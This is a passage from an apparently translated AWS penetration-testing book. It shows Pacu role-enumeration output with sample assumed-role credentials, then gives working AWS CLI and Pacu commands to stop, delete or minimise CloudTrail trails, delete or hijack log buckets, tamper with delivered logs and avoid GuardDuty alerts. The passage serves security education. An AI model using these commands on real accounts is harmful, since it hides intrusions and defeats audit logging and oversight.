Pacu (Spencer:imported-default) > run iam__enum_roles --account-id 000000000000 --role-name TestRole 
  Running module iam__enum_roles... 
[iam__enum_roles] Warning: This script does not check if the keys you supplied have the correct permissions. Make sure they 
are allowed to use iam:UpdateAssumeRolePolicy on the role that you pass into --role-name and are allowed to use sts:AssumeRole to try and assume any enumerated roles! 

[iam__enum_roles] Targeting account ID: 000000000000 

[iam__enum_roles] Starting role enumeration... 

[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]   Found role: arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Found 3 role(s): 

[iam__enum_roles]     arn:aws:iam::000000000000:role/service-role/AmazonAppStreamServiceAccess 
[iam__enum_roles]     arn:aws:iam::000000000000:role/CodeDeploy 
[iam__enum_roles]     arn:aws:iam::000000000000:role/SSM 

[iam__enum_roles] Checking to see if any of these roles can be assumed for temporary credentials... 

[iam__enum_roles]   Role can be assumed, but hit max session time limit, reverting to minimum of 1 hour... 

[iam__enum_roles]   Successfully assumed role for 1 hour: arn:aws:iam::000000000000:role/CodeDeploy 

[iam__enum_roles] { 
  "Credentials": { 
    "AccessKeyId": "ASIATR17AL2P90OB3U6Z", 
    "SecretAccessKey": "nIll8wr/T60pbbeIY/hkqRQlC9njUzv3RKO3qznT", 
    "SessionToken": "FQoGAR<snip>iC/aET", 
    "Expiration": "2019-01-16 20:32:08+00:00" 
  }, 
  "AssumedRoleUser": { 
    "AssumedRoleId": "AROAJ9266LEYEV7DH1LLK:qw9YWcRjmAiunsp3KhHM", 
    "Arn": "arn:aws:sts::000000000000:assumed-role/CodeDeploy/qw9YWcRjmAiunsp3KhHM" 
  } 
} 
[iam__enum_roles] iam__enum_roles completed. 

[iam__enum_roles] MODULE SUMMARY: 

  3 role(s) found after 8 guess(es). 
  1 out of 3 enumerated role(s) successfully assumed. 
```

前面的示例显示找到了几个角色，其中一个角色被错误配置为允许我们为其请求凭据。在编写本文时，Pacu 将尝试使用 1136 个名称的默认单词列表。

用户和角色枚举本质上都是永恒的，例如详细的 AWS CLI 错误消息，因为它利用的是预期的功能，而不是 API 中的任何错误。

# 扰乱步道

有许多方法可以中断 CloudTrail 轨迹的记录，以便在我们的攻击过程中尝试保持在雷达之下，但它们都可能触发警报，将我们的活动暴露给关注我们的人。但是，了解这些方法仍然很重要，因为我们攻击的每个帐户甚至都不具备最基本的监视功能（如 GuardDuty），因此在这种情况下禁用任何 CloudTrail 日志记录都是有意义的。不过，这个问题有部分解决方案；这些解决方案及其局限性将在本节末尾讨论。

# 关闭日志记录

破坏 CloudTrail 日志记录的一个简单方法是只需关闭任何活动的跟踪。有一个 API 就是为这个做的，`StopLogging`API。在 AWS CLI 中，我们可以使用以下命令关闭帐户中名为`test`的跟踪记录：

```
aws cloudtrail stop-logging --name test 
```

此命令必须从创建目标轨迹的区域运行，否则将返回一个`InvalidHomeRegionException`错误。

同样的任务也可以通过`detection__detection`Pacu 模块完成。该 Pacu 命令将如下所示：

```
 run detection__disruption --trails test@us-east-1 
```

然后，系统会提示您四个不同的选项：禁用、删除、最小化或跳过。要停止跟踪记录，我们将选择 disable（dis）。然后，Pacu 将禁用目标轨迹的日志记录。

下一章将提供更多关于警卫的信息。

无论哪种情况，如果 GuardDuty 正在运行，它都会触发`Stealth:IAMUser/CloudTrailLoggingDisabled`警报（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2) ），表示一条轨迹已被禁用。这将暴露我们对环境的未经授权访问，如果有人注意到，可能会关闭我们的攻击。

# 删除 trail/S3 bucket

另一组避免使用`StopLogging`API 的选项是要么完全删除 CloudTrail trail，要么删除它正在向其发送日志的 S3 bucket。我们可以使用以下命令从 AWS CLI 中删除名为`test`的轨迹：

```
aws cloudtrail delete-trail --name test 
```

这也可以通过 Pacu 来完成，方法是运行我们之前用于禁用跟踪的相同命令，但选择删除（del）选项：

```
run detection__disruption --trails test@us-east-1 
```

一旦提示如何处理跟踪，我们将选择`del`，这将随后完全删除 CloudTrail，这意味着日志记录已停止。

我们还可以删除某个 trail 正在向其传递日志的 S3 bucket，这将阻止活动 trail 记录任何内容。这可以完全避免 CloudTrail API（如果您知道要删除哪个 bucket 的话），但它仍然非常嘈杂，因为它会使跟踪处于错误状态。如果我们还不知道，可以使用 AWS CLI 通过以下命令识别 trail 正在向其发送日志的 bucket 的名称：

```
aws cloudtrail describe-trails 
```

然后我们将查看我们想要定位的轨迹的`S3BucketName`键的值，我们将称之为`cloudtrail_bucket`。然后，我们可以使用以下 AWS CLI 命令删除该 S3 存储桶：

```
aws s3api delete-bucket --bucket cloudtrail_bucket
```

现在 CloudTrail 将继续尝试将日志发送到该 bucket，但它将失败，这意味着在删除 bucket 期间不会写入任何日志。如果您已经知道目标是什么 bucket，那么就不需要运行任何 CloudTrail API 调用；只有 S3`DeleteBucket`呼叫。没有可用于执行此任务的 Pacu 模块（抓取跟踪目标的存储桶，然后将其删除）。之后，您甚至可以继续在自己的攻击者帐户中创建该 bucket，并提供正确的跨帐户写入权限；然后，将向您提供所有 CloudTrail 日志，而您的目标帐户将无法访问它们。

与禁用轨迹一样，在启用 GuardDuty 的情况下删除轨迹或其目标桶将触发`Stealth:IAMUser/CloudTrailLoggingDisabled`警报（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2) ），表示一条轨迹或其 bucket 已被删除。同样，这将暴露我们对环境的未经授权访问，如果有人注意到，可能会关闭我们的攻击。

# 缩小步道

另一个避免在目标帐户中禁用或删除的选项是修改跟踪，以最小化它所记录的内容。在本例中，假设有一条名为`test`的轨迹，它记录每个区域的日志；它记录全局服务事件，启用日志文件验证，启用日志文件加密，并记录对帐户中每个 S3 bucket 和 Lambda 函数的访问。

为了避免禁用或删除此跟踪，我们可以使用`UpdateTrail`API 删除它设置的所有提示。我们可以运行以下 AWS CLI 命令来禁用全局服务事件、将其从全局跟踪更改为单区域跟踪、禁用日志文件加密和禁用日志文件验证：

```
aws cloudtrail update-trail --name test --no-include-global-service-events --no-is-multi-region-trail --no-enable-log-file-validation --kms-key-id "" 
```

通过将 KMS 密钥 ID 设置为空值，从那时起所有日志都将被取消加密。您还可以选择要修改的设置，例如，如果您希望使用非全局 API 定位`us-west-2`区域，并且轨迹是在`us-east-1`中创建的全局轨迹。在这种情况下，您需要做的就是包括`--no-is-multi-region-trail`标志，并确保您停留在`us-west-2`范围内。如果线索正在向 SNS 主题发送通知，您还可以通过将主题设置为空字符串来禁用该通知。与跟踪相关联的 CloudWatch 日志也是如此。

就像禁用/删除轨迹一样，`detection__disruption`Pacu 模块将为您自动执行此过程。我们可以运行相同的命令：

```
run detection__disruption --trails test@us-east-1 
```

然后，当出现提示时，我们选择最小化（`m`选项，该选项将删除任何关联的 SNS 主题，禁用全局服务事件，将其从全局跟踪更改为单个区域跟踪，禁用日志文件验证，删除与 CloudWatch 日志组和关联角色的任何关联，并删除日志文件加密。

与禁用/删除跟踪类似，在启用 GuardDuty 的情况下，这些类型的修改有可能触发`Stealth:IAMUser/CloudTrailLoggingDisabled`（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth2) 和/或`Stealth:IAMUser/LoggingConfigurationModified`（[https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth3](https://docs.aws.amazon.com/guardduty/latest/ug/guardduty_stealth.html#stealth3) ）警报，这可能会导致我们在环境中被检测到。在撰写本文时，我们从未见过对 CloudTrail 的这种类型的攻击触发 GuardDuty，尽管对这两种查找类型的描述似乎表明它们应该被触发，因此不知道是否确实检测到了这一点。

要修改跟踪的 S3 数据和 Lambda 调用事件设置，我们需要使用`PutEventSelectors`API 而不是`UpdateTrail`。我们可以修改事件选择器以删除数据事件（S3/Lambda）的任何选择器，因此这些事件将不再被跟踪记录。我们还可以修改`ReadWriteType`，它指定轨迹是否应该记录读取事件、写入事件或两者。修改它并将其设置为仅记录读取事件是很简单的，这样我们的恶意写入事件就不会被记录。我们可以使用以下 AWS CLI 命令删除所有数据事件日志记录，并仅记录读取事件：

```
aws cloudtrail put-event-selectors --trail-name Test --event-selectors file://event_selectors.json
```

在`event_selectors.json`中，我们将有以下内容：

```
[
    {
        "ReadWriteType": "ReadOnly",
        "IncludeManagementEvents": true,
        "DataResources": []
    }
]
```

这个 JSON 文档告诉 CloudTrail 只记录读取事件，不记录任何数据事件（S3/Lambda）。一旦将其应用于线索，它现在将记录丢失大部分信息的信息，使我们的攻击者能够通过日志分析获得信息。

# 中断问题（以及部分解决方案）

这些类型的 CloudTrail 攻击的主要问题是 GuardDuty 设计用于检测它们，但是有一些潜在的旁路允许我们在不被发现的情况下进行更改。

第一个也是最简单的绕过方法是检测您所危害的用户的日常活动。GuardDuty 使用机器学习（详见[第 16 章](16.html)、*GuardDuty*）来检测这些攻击是否异常，因此，如果您攻击了一个有禁用/删除/修改 CloudTrail 跟踪历史的用户，那么您也可以这样做，而不必 GuardDuty 将其检测为异常。

另一个部分解决方案是在日志交付到 S3 存储桶后修改日志。如果目标在跟踪过程中正确地使用了日志文件验证设置，那么它将能够检测到这一点，但如果没有，那么进入 S3 存储桶就很简单了，在那里我们可以修改日志以删除攻击者活动的任何痕迹。有很多东西可以用来防御这样的攻击，但是在一个你在五旬期考试中遇到的环境中是可能的。

需要记住的一点是，删除/修改 S3 存储桶中的日志并不意味着这些日志在 CloudTrail 事件历史记录中被删除/修改，因为这些日志将在那里永久保留 90 天。CloudTrail 事件历史记录由于其速度和局限性而难以处理，因此在最坏的情况下（辩护人几乎立即调查您的活动），您仍然需要为自己争取一些时间，然后他们才能正确检查您的活动。

# 总结

在本章中，我们介绍了在可能的情况下设置遵循最佳实践的 CloudTrail 事件，以及如何在目标环境中审核最佳实践。CloudTrail 不是一个完美的服务，我们已经证明，通过使用它不支持的服务，可以在帐户中执行侦察，而不生成任何日志。出于这个原因，跟踪 CloudTrail 中不支持的服务是很有用的，这样您就可以在目标环境中发布这些服务时利用它们，而不必在日志中显示它们。跨帐户枚举方法还允许我们发现有关目标帐户的信息，而无需生成日志（在目标帐户中），这意味着我们可以了解谁使用了环境以及环境中使用了什么，而无需使用受损的密钥集进行 API 调用。我们还展示了如何使用 Pacu 自动化对 CloudTrail 的一些攻击，以及 GuardDuty 在哪里尝试和检测这些操作。

在下一章中，我们将更深入地讨论 GuardDuty，重点讨论它检测到什么和标记，以及如何绕过本章中讨论的检测。这些旁路和对 GuardDuty 使用的探测方法的了解将使我们能够在保持隐身的同时以武力攻击环境。